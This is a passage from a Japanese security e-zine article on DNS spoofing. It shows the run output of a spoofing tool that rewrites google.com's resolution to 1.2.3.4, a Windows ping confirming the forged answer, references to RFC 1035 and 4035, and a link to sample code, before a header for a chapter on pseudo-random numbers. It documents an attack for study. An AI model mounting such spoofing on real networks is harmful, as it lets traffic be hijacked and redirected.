 -----
HOST-C# ./a.out google.com em0 1.2.3.4
Starting ./a.out
interface em0
ether 00:1f:d0:c0:24:da
snaplen 65535 bytes
target host google.com
spoof IP 1.2.3.4

########## DNS Spoofing ##########
id    : 16875
type  : 1
class : 1
entry : 2
query : google.com
spoof : google.com
dns qr: 1
qtype : 1
Sending 73 bytes ... 73 bytes sended
-----

　上記のHOST-Cの出力結果から、google.comの名前解決結果を書き換えているこ
とがわかります。
　この出力結果は、以下のHOST-Aからgoogle.comへpingを実行した際のものです。

-----
C:\Users\unya> ping google.com

google.com [1.2.3.4]に ping を送信しています 32 バイトのデータ:
Ctrl+C
^C
C:\Users\unya>
-----

　上記のとおり、DNS回答パケットが改ざんされていることがわかります。


■0x05.) 参考文献

[1]「詳解TCP/IP〈Vol.1〉プロトコル」ピアソンエデュケーション
[2]「DOMAIN NAMES - IMPLEMENTATION AND SPECIFICATION」RFC 1035
[3]「Protocol Modifications for the DNS Security Extensions」 RFC 4035


■0x06.) サンプルコード

http://routehack.org/pub/throughme/



x0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0x
x0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0x

--- 第2章: 嘆きの擬似乱数 ---

著者：髙田　勉

x0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0x
x0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0xx0xXx0x
